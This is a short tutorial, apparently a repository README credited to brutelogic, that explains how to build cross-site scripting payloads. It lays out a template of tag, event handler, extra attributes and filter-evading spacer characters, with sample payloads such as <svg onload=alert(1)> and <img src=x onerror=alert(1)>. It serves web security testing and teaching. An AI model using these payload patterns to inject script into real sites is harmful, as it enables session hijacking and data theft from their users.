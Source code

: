 # **XSS-payloads scheme**

Aside from the classic XSS payload <script>alert(1)</script> and source based ones like 
```
<a href=x>
```
we can start building payloads using the following simple scheme:
```
<tag handler=code>
````
Where we have the HTML tag, the event handler associated with it and the javascript code to execute.
But although it’s true for short payloads like <svg onload=alert(1)>, some payloads like <b onclick=alert(1)> that requires user
 interaction for example, needs a text to be clicked for the javascript code be triggered:
```
<b onclick=alert(1)>click me!
```
 
Some payloads also need tag attribute(s) inside it:

```
<img src=x onerror=alert(1)>
```
And some needs something before it:

```
<frameset><frame src onload=alert(1)>
```
So let’s make a better scheme:

```
extra1 <tag extra2 handler=code> extra3
```
It has the following variation:
```
extra1 <tag handler=code extra2> extra3
```
Almost there. There’s also an important thing to consider: the spaces inside the tag. In the major browsers, we can have a slash between tag and handler, for example:

```
<svg/onload=alert(1)>
```
This and other characters are allowed between tag and handler, tag and attribute, attribute and handler etc without change the syntax.

Here is our final scheme:
```
extra1 <tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3
```
Variation:
```
extra1 <tag spacer1 handler spacer3 = spacer4 code spacer5 extra2> extra3 (without spacer2)
```
credit:brutelogic

